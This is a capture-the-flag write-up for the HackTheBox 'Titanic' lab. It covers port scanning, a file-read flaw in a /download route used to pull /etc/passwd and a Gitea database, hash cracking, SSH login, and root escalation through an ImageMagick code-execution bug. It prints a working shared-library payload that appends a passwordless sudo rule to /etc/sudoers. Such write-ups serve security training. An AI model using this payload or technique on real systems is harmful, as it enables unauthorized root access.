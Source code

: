 ---------------

### CTF: HACKTHEBOX
### LAB: TITANIC

----------------

![image](https://github.com/user-attachments/assets/c569dd2e-6082-4668-88d7-9d752cab0fcd)

----------------

- Rustscan's result

```bash
❯ rustscan -a titanic.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.55:22
Open 10.10.11.55:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 11:53 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:53, 0.00s elapsed
Initiating Connect Scan at 11:53
Scanning titanic.htb (10.10.11.55) [2 ports]
Discovered open port 80/tcp on 10.10.11.55
Discovered open port 22/tcp on 10.10.11.55
Completed Connect Scan at 11:53, 0.91s elapsed (2 total ports)
Initiating Service scan at 11:53
Scanning 2 services on titanic.htb (10.10.11.55)
Completed Service scan at 11:53, 6.80s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.55.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:53
Completed NSE at 11:54, 6.35s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.88s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for titanic.htb (10.10.11.55)
Host is up, received user-set (0.91s latency).
Scanned at 2025-02-18 11:53:50 WAT for 16s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-  I discovered a subdomain `dev` with ffuf.We'll come back to this later

![image](https://github.com/user-attachments/assets/3c80c7ac-2a3f-40d2-87b8-b7980e04e473)

-  On the main page,there is a route `/book` that helps to submit user forms.Using `Chrome Dev tools`,I noticed that the server makes a `POST` request
to another route `/download` to read files.

![image](https://github.com/user-attachments/assets/0357de7f-837e-42e3-8c69-ccd506d6ee4d)

- I tested the route and was able to read `/etc/passwd`.

![image](https://github.com/user-attachments/assets/0a3a236b-613b-45a5-a10a-7d5de27a0f97)

- There is a user `/developer` on the server who will be our main target till we gain foothold on the server.

```text
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

- `Gitea` runs on the subdomain `dev`.It also contains repositories for the flask app and docker config.

![image](https://github.com/user-attachments/assets/11d61cbc-fd00-4cc6-8bbc-cb32ba1287a5)

- The docker config contains the custom installation directory for gitea.

![image](https://github.com/user-attachments/assets/8aa9ad3d-c0f1-41bb-b543-f4da1be92cdb)

- After checking for necessary backend files for `Gitea`,I discovered the important ones which are `app.ini` and `gitea.db`.The `gitea.db` contains the pbkdf2 hashes for Gitea users which can be cracked.I was able to read it.

![image](https://github.com/user-attachments/assets/32effff5-67b6-4ced-ad11-3db616a6e38f)

- I got a one liner from [Oxdf](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#winrm) to extract and create pbkdf2 hashes

![image](https://github.com/user-attachments/assets/469286d1-2e60-4b25-8d95-038af68a2c8b)

- I cracked it with hashcat as also explained in the writeup

![image](https://github.com/user-attachments/assets/e00a6901-5178-4b40-bccc-e48e7cdde03d)

- SSH access with the password

![image](https://github.com/user-attachments/assets/3b3b0f38-9725-48f6-bd5c-1ae99a9968e9)

-----------------

### PRIVESC-: Image Magick

-----------------

- I discovered this script in `/opt/scripts` that identify images with the `Image magick` binary.

![image](https://github.com/user-attachments/assets/86c903bb-3a5e-4a37-a70f-146f741e4f18)

- This version of image magick is vulnerable to Code Execution as explained here [Image Magick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

![image](https://github.com/user-attachments/assets/784dd5a2-816c-4bc2-b9cd-d805ed93aa97)


- I tweaked the POC to grant root privileges by adding an `all` rule to the `/etc/sudoers` file.

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
  system("echo 'developer ALL=(ALL:ALL) NOPASSWD: ALL' >> /etc/sudoers");
  exit(0);
}
EOF
```
- I ran `sudo -l` to confirm if the rule has been added.

![image](https://github.com/user-attachments/assets/9bd940f9-275b-40d7-9dd7-14f87350583f)

- Root-:

![image](https://github.com/user-attachments/assets/387ad12a-6e87-4b98-a70e-2079c3503a6c)

-----------------

### THANKS FOR READING

-----------------

### REFERENCES-:

-----------------

- [Image Magick Code Execution](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

-----------------












